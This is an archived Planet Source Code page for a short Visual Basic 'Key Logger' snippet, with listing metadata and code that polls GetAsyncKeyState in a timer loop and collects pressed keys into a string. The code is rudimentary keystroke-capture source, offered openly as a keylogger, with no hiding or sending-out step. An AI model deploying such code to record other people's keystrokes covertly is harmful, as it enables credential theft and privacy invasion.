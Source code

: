 ﻿<div align="center">

## A Key Logger


</div>

### Description

It Logs Your Key Presses

Place This Code In A Timer On Interval Less Then 20 The Faster It Is The

better But It Consumes More System Rescources
 
### More Info
 


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[Adam Jacob Muller](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/adam-jacob-muller.md)
**Level**          |Unknown
**User Rating**    |3.0 (12 globes from 4 users)
**Compatibility**  |VB 4\.0 \(32\-bit\), VB 5\.0, VB 6\.0
**Category**       |[Windows API Call/ Explanation](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/windows-api-call-explanation__1-39.md)
**World**          |[Visual Basic](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/visual-basic.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/adam-jacob-muller-a-key-logger__1-2653/archive/master.zip)

### API Declarations

```
Declare Function GetAsyncKeyState Lib "user32" (ByVal dwMessage As Long) As Integer
```


### Source Code

```
'Place This Code In A Timer On Interval Less Then 20 The Faster It Is The
'better But It Consumes More System Rescources
Dim KeyLoop As Byte
Dim FoundKeys As String
Dim KeyResult As Long
For KeyLoop = 1 To 255
 KeyResult = GetAsyncKeyState(KeyLoop)
 If KeyResult = -32767 Then
 FoundKeys = FoundKeys + Chr(KeyLoop)
 End If
Next
```

